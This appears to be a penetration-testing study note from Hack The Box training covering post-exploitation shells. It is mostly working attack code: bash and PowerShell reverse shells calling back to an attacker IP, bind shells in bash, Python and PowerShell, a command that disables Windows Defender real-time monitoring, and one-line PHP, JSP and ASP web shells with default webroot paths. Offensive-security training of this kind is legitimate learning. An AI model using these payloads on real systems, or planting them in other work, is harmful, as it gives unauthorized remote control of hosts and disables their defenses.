 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

Once a host has been compromised and we have RCE, setting up some form of persistent communication is a key part of [[5 - Post-Exploitation]].

**Linux:**
Some useful considerations before establishing a shell session:
- What distribution is on the system?
- What shell & programming languages are on the system?
- What is the purpose and function of the system in its network environment?
- What applications is the system hosting?
- Are there any known vulnerabilities?

## Types of Shells
### Reverse Shell
Connects back to our system and gives us control through a reverse connection. We setup a listener on our machine and then connect back to it from the target.
![[Netcat (nc)#Create a listener]]

Connecting back to our system with a shell is slightly more complex as it depends what we have available. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shells.

**Bash**
```bash
bash -c 'bash -i >& /dev/tcp/[IP]/[Port] 0>&1'
```

**Netcat**
![[Netcat (nc)#Create a simple reverse shell]]

**Powershell via CMD**
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
> Sometimes we might be able to disable Windows defender Virus & Threat protection, allowing us to run the above:
> `Set-MpPreference -DisableRealtimeMonitoring $true`
> A script version of a similar process is available [here](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

> 1. `powershell -nop -c` creates a no profile (`nop`) and executes the following code (`-c`)
> 2. `$client = New-Object System.Net.Sockets.TCPClient('<ip>', <port>);` First we connect to a TCP socket and set it as the client
> 3. `$client.GetStream();` Now open the stream with `GetStream`
> 4. `[byte[]]$bytes = 0..65535|%{0};` Create an empty byte stream to send to our TCP listener
> 5. `while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)` starts a loop to read through the bytes buffer
> 6. `{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);` This encodes the bytes buffer into ASCII characters
> 7. `$sendback = (iex $data 2>&1 | Out-String );` invokes the data and redirects its output to be turned from an object to a string
> 8. `$sb2 = $sb + 'PS ' + (pwd).Path + '> ';` this creates the prompt on the end of the data
> 9. `$sendbyte ...;$s.Write(...);$s.Flush(...)};` creates the final encoded byte stream that we will send via the TCP socket
> 10. `$client.Close()"` will close the connection at the end when its terminated

## Bind Shells
Unlike a reverse shell, a Bind shell connects us to the *targets'* listening port. This means we are connecting to the target rather than them connecting to us (the opposite direction to a RS).

To create a bind shell, we need to listen on a port on the target and bind a shell to that port. Then on the tester machine we can us [[Netcat (nc)]] to connect to it.

Some challenges with bind shells however:
- We need an already active listener or be able to create one ourselves.
- It is typical for strict incoming firewall rules and NAT on the edge of the network (public-facing), so we would need to be on the internal network already.
- OS firewalls often block incoming connections that aren't associated with trusted network-based applications.

To setup a bind shell on the server, we need to define:
- the directory
- the shell
- the listener
- a pipeline (eg. a named pipe) : *a file that can be written and read by multiple processes*
- input & output redirection

**Bash**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lv 1234 >/tmp/f
```
> 1. Remove any existing `/tmp/f`
> 2. Create a named pipe at `/tmp/f` with `mkfifo`
> 3. Read input from `/tmp/f` with `cat`
> 4. Spawn an interactive bash shell with errors being redirected to stdout
> 5. Start a `nc` listener that writes to `/tmp/f`
> With this, any commands sent via the nc connection are written and then read from `/tmp/f`, executed and output is returned back down the connection.

**Python**
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

**Powershell**
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

### Upgrading TTY
To give us more terminal features (eg. a mouse, history, etc) we need to upgrade the TTY.
There are multiple methods to do this. For our purposes, we will use the `python/stty` method. In our `netcat` shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:
```shell
www-data@remotehost$ ^Z

alipali737@htb[/htb]$ stty raw -echo
alipali737@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```

Once we hit `fg`, it will bring back our `netcat` shell to the foreground. At this point, the terminal will show a blank line. We can hit `enter` again to get back to our shell or input `reset` and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.

We may notice that our shell does not cover the entire terminal. To fix this, we need to figure out a few variables. We can open another terminal window on our system, maximize the windows or use any size we want, and then input the following commands to get our variables:

```shell
alipali737@htb[/htb]$ echo $TERM

xterm-256color
```

```shell
alipali737@htb[/htb]$ stty size

67 318
```

The first command showed us the `TERM` variable, and the second shows us the values for `rows` and `columns`, respectively. Now that we have our variables, we can go back to our `netcat` shell and use the following command to correct them:

```shell
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

Once we do that, we should have a `netcat` shell that uses the terminal's full features, just like an SSH connection.

## Web Shells
This is a web script that accepts commands through HTTP params, executes the command and returns the output. There are two components to using these: Uploading the web shell and executing the shell.

A great benefit of these kind of shells is that they utilise the existing connection that would be allowed through a firewall.

### Writing a web shell
Web shells tend to be simple one line commands that take a command and execute them on the system. The following examples are all *GET* requests:

**PHP**
```
<?php system($_REQUEST["cmd"]); ?>
```

**JSP**
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

**ASP**
```
<% eval request("cmd") %>
```

### Uploading the web shell
We need to get our web shell script into the web root to be able to execute it. This can either be through a file upload vulnerability, or even an RCE could let us write the file on the target system ourself.

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| Apache     | /var/www/html/         |
| Nginx      | /usr/local/nginx/html/ |
| IIS        | c:\inetpub\wwwroot\    |
| XAMPP      | C:\xampp\htdocs\       |
